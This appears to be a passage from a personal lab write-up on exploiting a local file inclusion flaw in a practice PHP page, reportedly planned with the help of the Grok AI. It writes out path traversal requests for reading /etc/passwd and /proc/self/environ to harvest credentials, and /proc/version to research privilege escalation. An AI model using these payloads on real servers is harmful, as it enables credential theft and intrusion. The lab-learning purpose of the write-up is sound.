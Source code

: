 ```Markdown
Log poisoning via access logs
```

  

## Step-by-Step Plan to Exploit LFI ft.Grok AI

### Step 1: Confirm LFI Vulnerability ✅

- You’ve already nailed this! ==**The request GET /labs/fi0x01.php?filename=../../../../../etc/passwd returned the contents of /etc/passwd,**== proving the filename parameter is vulnerable to LFI.
- The app is including files without proper sanitization, and five ../ gets you to the root directory (/). No response with four ../ **(../../../../etc/passwd) means the web root is likely deep, like /var/www/html/labs.**

- **What this means**: You can read arbitrary files the web server user (www-data) has access to.
- **Pro Tip**: Document this payload (../../../../../etc/passwd) for your lab report—it’s a key finding.

### Step 2: Test Path Traversal

- Since path traversal worked, ==**let’s enumerate other system files to map out the server and find juicy info**== (e.g., configs, creds, or flags). Use Burp Suite’s Repeater to test these systematically.

  

- ==**Files to Target (all with ../../../../../ since it worked):**==
    1. ==**/proc/self/environ:**==
        
        1. Why: ==**Shows environment variables for the web server process. May reveal database creds, API keys, or paths.**==
        
        ```Bash
        ## REQUEST
        
        GET /labs/fi0x01.php?filename=../../../../../proc/self/environ HTTP/1.1
        Host: localhost
        
        ## Expected Output: USER=www-data,HOME=/var/www,DB_PASSWORD=secret123
        ```
        
    2. ==**/proc/version:**==
        
        1. Why: ==**Reveals kernel version (e.g., Linux version 5.4.0-42-generic), useful for privilege escalation research.**==
        
        ```Bash
        ## REQUEST
        
        GET /labs/fi0x01.php?filename=../../../../../proc/version HTTP/1.1
        Host: localhost
        